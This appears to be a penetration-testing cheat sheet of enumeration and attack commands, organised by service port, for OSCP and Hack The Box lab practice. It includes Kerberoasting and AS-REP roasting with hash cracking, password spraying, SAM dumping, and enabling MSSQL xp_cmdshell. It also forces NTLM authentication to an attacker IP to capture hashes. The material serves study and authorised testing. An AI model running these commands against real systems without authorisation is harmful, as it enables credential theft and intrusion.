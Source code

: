 ```yaml
---
description: All but the easiest HTBs are harder than even the 25 point exam boxes.
---
```


# Enumeration (Commands & Links)

{% embed url="https://sgtdede.gitbook.io/hacking/oscp-2022/guide-en" %}

{% embed url="https://eins.li/posts/oscp-secret-sauce/" %}

{% embed url="https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html" %}

{% embed url="https://casvancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/#reconnaissance" %}

{% embed url="https://github.com/oncybersec/oscp-enumeration-cheat-sheet" %}

### Nmap

```
nmap -sC -sV -p- $ip -v -oN scan.nmap        (TCP)
nmap -sU --top-ports 20 -oN scan.nmap -vv $ip  (UDP)
-Pn Disables host discovery and only conducts a port scan. 
-A OS/Version Detection
-O Remote OS detection using TCP/IP stack fingerprinting
```

### HTTP/HTTPS (80/443)

<pre><code>(VHost)     ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://$IP:PORT -h (try -H) 'Host: FUZZ.board.htb' -f(c/s/w)   
(Directory) ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP:PORT/FUZZ 
(File fuzzing) ffuf -u http://localhost:3000/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt    
(HTTP GET)  ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx        
(HTTP POST) ffuf -w [wordlist]:FUZZ -u [URL] -X POST -d '<a data-footnote-ref href="#user-content-fn-1">id=FUZZ</a>' -H 'header: value' -fs xxx  
(Use raw request) : ffuf -request request.txt -request-proto http -w wordlist.txt -r [FUZZ should be present in the request]
(Multiple params) ffuf -w list1.txt:W1 -w list2.txt:W2 -X POST -d "username=W1&#x26;password=W2" -u [URL] -fc 200
-p "1.0" and -rate [25]  to rate limit incase of WAF
-r follow redirect
wfuzz -c -w /usr/share/wordlists/yes.txt -u "http://alert.htb/" -H "Host: FUZZ.alert.htb"

curl --insecure -b "[cookiename]=[value]" -X POST --data "[data]" [URL] (--insecure bypass SSL verification)

nikto -h $ip
</code></pre>

### FTP (21)

```
wget -r ftp://anonymous:@<IP>    [If you can't see anything or don't really know where you are]
ftp [ip]
passive (Mitigate entering passive mode)
dir
dir
binary (Set to binary mode for proper channel to download bin files)
get [file]
```

### SSH (22)

```
ssh -L [kali_port]:localhost:[target_port] [user]@[ip] -fN
chmod 600 id_dsa
port forwarding (local and remote)
sshuttle
proxychains?
```

### SMTP (25)

```
telnet 10.10.11.14 25
EHLO [emailid]
AUTH LOGIN
[username in base64]
[password in base64]

swaks --to receiver@mail.com --from sender@mail.com --auth LOGIN --auth-user sender@mail.com --header-X-Test "Header" --server <TARGET-IP> --attach file.txt
```

### Kerberos (88)

Golden/Silver ticket loading

```
./kerbrute_linux_amd64 userenum -d <domain>  userlist.txt --dc <domain> -v
./GetNPUsers.py -dc-ip [ip] -request '[domain]/[user]'
./GetNPUsers.py [domain] -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] [domain]/[user]
hashcat64 -m 18200 <hash> rockyou.txt -d 1

./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>

export KRB5CCNAME=/home/jtripz/htb/rooms/escape/ticket.ccache; faketime -f '+8h' /usr/bin/python3 psexec.py [domain]/[username]@[dc] -k -no-pass
```

### SMB (139/445)

```
NXC
nxc smb [ip]
nxc smb 10.10.11.35 -u userlist.txt -p 'password' [bruteforce usernames, change smb to winrm/ldap or any other protocol you want to test perms for]
nxc smb [host/ip] -u guest -p '' --shares [list shares depending on user access provided]
nxc smb [host] -u [user] -p [password] --sam

SMBCLIENT [INTERACT WITH SMB]
smbclient //[ip]/[share] -N -L [List share with null auth]
smbclient --user username //10.10.11.35/DEV
recurse ON
prompt OFF
mget *
smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass [Kerberos auth]

SMBMAP
smbmap -H [ip] -u user -p 'password' -r SYSVOL --depth 10
smbmap -H [ip] --download PATH_TO_FILE

RPCCLIENT
rpcclient -U '' -N 10.10.11.35   
rpcclient -U 'user'  10.10.11.35
enumdomusers
enumdomgroups
querygroup [RID]
queryuser [RID]
enumprivs

responder to receive NTLM authentication hashes from services like mysql
smbserver.py
```

#### User Enumeration

```
lookupsid.py guest@[ip] -no-pass
netexec smb [ip] -u guest -p '' --rid-brute
```

{% embed url="https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html" %}

{% embed url="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/" %}

### LDAP (389)&#x20;

```
ldapsearch -H ldap://[ip] -x -s base namingcontexts  [-x simple auth, -s scope]
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" > ldap.anon.out  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)'

Windows timestamp to human cus Windows does not follow EPOC, for user and password creation and last pass attempt and all the stuff associated with the above search
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  sAMAccountType

ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName sAMAccountType | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap" %}

### MSSQL (1433)

```
.\SQLCMD.EXE -S localhost -U [user] -P [password] -d [database] -Q "select table_name from streamio_backup.information_schema.tables;"

python3 mssqlclient.py [-port {opt}] [domain]/[user]:[password]@[dc] {-windows-auth}
enable_xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

sudo responder -I tun0
EXEC master.sys.xp_dirtree '\\10.10.14.9\myshare',1, 1
```

### SQL (3306)

Payload all the things for both please

```
mysql -h [IP] -u [username] -p
```

### PostgreSQL (5432)

```
psql -h localhost -p 5432 -U [user] -d [database]
\list
\c [dbname]
\dt
\d [table] (listing schema for table users)
select * from [table];
```

{% embed url="https://web.archive.org/web/20200309204648/http://0daysecurity.com/penetration-testing/enumeration.html" %}

[^1]: FUZZ=key if you wanna do the opposite
